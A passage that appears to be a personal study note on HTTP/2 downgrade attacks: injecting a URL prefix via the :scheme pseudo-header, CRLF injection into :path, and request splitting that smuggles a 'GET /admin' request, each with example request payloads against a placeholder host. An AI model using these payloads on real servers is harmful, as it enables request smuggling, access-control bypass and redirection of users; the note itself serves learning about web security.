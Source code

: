 ```js
Host: vuln-web.com
```

## Injecting a URl prefix
- another feture of HTTP/2 is ability to explicitly specify a scheme in the request using `:scheme` pseudo-header, ordinay just contain http or https but we include arbitrary values
**request**
```
:method GET
:path /anything
:authority vuln-web.com
:scheme https://evil.net
```
**Response**
```js
:status 301
location  https://evil.net://vuln-web.com/anything/
```

## Injecting Newline into pseudo-headers
- when inejcting `:path` or `:method` , make sure that resultign http/1 request still has valid request line
- `\r\n` terminate request line in http/1 , adding `\r\n` will just break the request after downgrading sequence should be `method space path space HTTP/1.1`
**front-end(http/2)**
```
:method GET
:path /example HTTP/1.1\r\n
	  Transfer-Encoding: chunked\r\n
	  X: x
:authoroty vuln-web.com
```
**back-end(HTTP/1)**
```js
GET /example HTTP/1.1\r\n
Transfer-Encoding: chunked\r\n
X: x HTTP/1.1\r\n
Host: vuln-web.com\r\n
\r\n
```

# HTTP/2 request Splitting
- we have see in Response queue poisoning, how we split 1 request in 2 complete requests on back-end.
- previously we have seen the spliting occured inside message body, but When HTTP/2 downgrading is in play, we can also cause this split to occur in header instead
- this approach is versatile beacuse we aren't depand on reqeust methods that are followed to contain a body

```js
:method GET
:path / 
:authority vuln-web.com
foo bar \r\n
	\r\n
	GET /admin HTTP/1.1\r\n
	Host: vul-web.com
```
- this also usefull when `Content-length:` is validated and back-end doesnt support chunked encoding
